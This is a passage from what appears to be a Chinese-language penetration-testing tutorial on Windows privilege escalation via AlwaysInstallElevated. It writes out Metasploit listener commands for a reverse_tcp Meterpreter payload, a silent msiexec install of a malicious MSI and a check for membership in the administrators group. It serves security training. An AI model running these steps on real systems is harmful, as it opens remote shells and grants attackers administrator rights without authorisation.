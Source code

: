     图 9.9 – Meterpreter – 上传自定义 MSI

1.  现在，我们需要使用 Metasploit 设置 Meterpreter 监听器。可以通过在 Metasploit 控制台中运行以下命令来完成此操作：

    **use /exploit/multi/handler**

1.  下一步是指定我们使用 MSFvenom 创建自定义 MSI 可执行文件时使用的有效载荷。可以通过运行以下命令来完成此操作：

    **set payload /windows/x64/meterpreter/reverse_tcp**

    现在，我们需要配置模块选项。在这种情况下，我们需要配置**LHOST**和**LPORT**选项，如下图所示：

    ![图 9.10 – Meterpreter 有效载荷选项    ](img/B17389_09_010.jpg)

    图 9.10 – Meterpreter 有效载荷选项

    在设置模块选项后，我们可以通过运行以下命令来启动监听器：

    **run**

    监听器将监听来自我们使用**MSFvenom**生成的自定义 MSI 可执行文件的任何传入连接。

1.  下一步是通过**msiexec**工具执行自定义的 MSI 可执行文件。可以通过在 Windows 命令行中运行以下命令来完成此操作：

    **msiexec /quiet /qn /i C:/temp/setup.msi**

    如果成功，这将在我们的监听器上生成一个提升的 Meterpreter 会话，如下图所示：

    ![图 9.11 – AlwaysInstallElevated Meterpreter 会话    ](img/B17389_09_011.jpg)

    图 9.11 – AlwaysInstallElevated Meterpreter 会话

1.  此过程还将把当前的标准用户添加到本地管理员组中。我们可以通过在 Windows 命令行中运行以下命令来确认这一点：

    **net localgroup administrators**
